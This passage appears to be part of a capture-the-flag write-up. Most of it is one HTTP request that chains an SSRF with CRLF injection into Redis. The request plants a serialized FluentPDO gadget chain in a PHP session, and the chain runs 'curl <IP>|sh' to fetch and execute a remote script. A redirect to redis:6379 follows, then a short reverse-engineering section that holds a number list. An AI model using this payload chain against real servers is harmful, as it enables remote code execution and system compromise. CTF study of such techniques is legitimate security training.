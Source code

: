 
```http
POST /update.php?mode=url HTTP/1.1
Host: 34.81.158.137:5566
Content-Length: 1386
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=7ae84e5c2a2be644c1fdf1b1eeb7d0df
Connection: close

url=http://ginoah.tw:8080/a.b%250d%250aSET%2520PHPREDIS_SESSION:7ae84e5c2a2be644c1fdf1b1eeb7d0df%2520%2527username|O%253A30%253A%2522Envms%255CFluentPDO%255CQueries%255CSelect%2522%253A4%253A%257Bs%253A6%253A%2522fluent%2522%253BN%253Bs%253A7%253A%2522clauses%2522%253Ba%253A1%253A%257Bs%253A1%253A%2522x%2522%253Ba%253A2%253A%257Bi%253A0%253BO%253A30%253A%2522Envms%255CFluentPDO%255CQueries%255CSelect%2522%253A4%253A%257Bs%253A6%253A%2522fluent%2522%253BO%253A21%253A%2522Envms%255CFluentPDO%255CQuery%2522%253A2%253A%257Bs%253A3%253A%2522pdo%2522%253BN%253Bs%253A9%253A%2522structure%2522%253BO%253A25%253A%2522Envms%255CFluentPDO%255CStructure%2522%253A1%253A%257Bs%253A10%253A%2522primaryKey%2522%253Bs%253A6%253A%2522system%2522%253B%257D%257Ds%253A7%253A%2522clauses%2522%253Ba%253A0%253A%257B%257Ds%253A10%253A%2522statements%2522%253Ba%253A2%253A%257Bs%253A6%253A%2522SELECT%2522%253Ba%253A1%253A%257Bi%253A0%253Bs%253A3%253A%2522x%253Ax%2522%253B%257Ds%253A4%253A%2522FROM%2522%253Bs%253A18%253A%2522curl%2B3419192343%257Csh%2522%253B%257Ds%253A5%253A%2522regex%2522%253BO%253A21%253A%2522Envms%255CFluentPDO%255CRegex%2522%253A0%253A%257B%257D%257Di%253A1%253Bs%253A8%253A%2522getQuery%2522%253B%257D%257Ds%253A10%253A%2522statements%2522%253Ba%253A1%253A%257Bs%253A1%253A%2522x%2522%253Bb%253A1%253B%257Ds%253A5%253A%2522regex%2522%253BN%253B%257D%2527%250d%250aHost:%2520xx
```


```http
Location: http://redis:6379/
```

## rev

### javascript_vm

* test

```
127 127
148 148
212 178
242 182
247 182
175 169
152 148
186 187
158 156
215 146
133 130
179 133
251 216
221 175
207 146
183 107
230 156
94 91
3 202
175 125
216 191
179 179
195 126
183 123
190 144
162 116
189 117
81 81
170 124
```